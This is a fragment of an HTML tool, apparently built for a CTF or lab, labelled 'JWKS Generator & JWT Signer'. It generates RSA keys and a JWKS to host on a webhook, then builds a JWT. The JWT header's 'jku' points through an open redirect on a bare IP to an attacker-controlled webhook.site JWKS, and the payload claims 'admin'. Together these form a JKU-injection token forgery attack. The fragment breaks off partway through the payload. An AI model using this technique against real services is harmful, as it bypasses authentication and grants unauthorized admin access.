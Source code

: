 ```html
    </style>

</head>

<body>

    <div class="container">

        <h1>🔐 JWKS Generator & JWT Signer</h1>

        <div class="section">

            <h3>Step 1: Generate RSA Key Pair</h3>

            <button onclick="generateRSAKeyPair()">🔑 Generate RSA Keys</button>

            <div id="keyOutput" class="output">Click "Generate RSA Keys" to create a key pair</div>

        </div>

  

        <div class="section">

            <h3>Step 2: Generate JWKS (Host this on your webhook)</h3>

            <button onclick="generateJWKS()">📋 Generate JWKS</button>

            <button onclick="copyJWKS()">📥 Copy JWKS</button>

            <div id="jwksOutput" class="output">Generate RSA keys first</div>

        </div>

  

        <div class="section">

            <h3>Step 3: Create JWT with RSA Signature</h3>

            <label>JWT Header:</label>

            <textarea id="jwtHeader">{

  "alg": "RS256",

  "typ": "JWT",

  "jku": "http://34.9.3.251:9001/redirect/?url=https://webhook.site/9667e68a-a68a-47a6-89e3-49b87606ffc3/jwks.json"

}</textarea>

            <label>JWT Payload:</label>

            <textarea id="jwtPayload">{

  "sub": "admin",

  "username": "admin",

  "iat": 1722535662,

```
